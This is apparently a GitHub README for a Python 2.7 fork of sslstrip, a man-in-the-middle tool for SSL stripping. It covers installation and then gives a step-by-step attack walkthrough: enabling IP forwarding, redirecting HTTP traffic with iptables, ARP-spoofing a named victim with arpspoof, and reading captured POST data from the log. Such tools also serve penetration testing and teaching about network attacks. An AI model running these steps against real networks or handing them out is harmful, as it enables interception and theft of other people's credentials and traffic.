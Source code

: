 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
git clone https://github.com/juanelas/sslstrip.git
cd sslstrip
sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run it from source by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

sslstrip can be run from the source base without installation.
Just run `sslstrip -h` as a non-root user to get the  command-line options.

```text
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The four steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   `echo "1" > /proc/sys/net/ipv4/ip_forward`

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>`

   `sslstrip -l <yourListenPort>`

3) Setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   `sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>`

5) Run `arpspoof` to redirect all traffic from your victim to the Internet to your machine:

   `arpspoof -i <yourNetworkdDevice> -t <victimIpAddress> <routerIpAddress>`

5) Start a network sniffer (e.g. wireshark, tcpdump) or directly look for HTTP posts in the sslstrip log file (`sslstrip.log` by default)
